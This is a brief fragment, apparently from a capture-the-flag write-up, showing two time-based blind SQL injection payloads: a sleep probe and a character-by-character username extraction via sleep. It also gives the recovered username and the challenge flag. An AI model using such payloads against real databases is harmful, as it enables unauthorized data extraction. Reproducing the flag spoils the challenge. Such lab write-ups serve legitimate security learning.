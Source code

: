 ```
' or (select sleep(5)); #
' or (select if(mid(username,1,1)='e',sleep(1),0) from naughty); #

egische

NOVI{bl1nd_sql1_is_naughty}
```
<img src="../images/7.png">
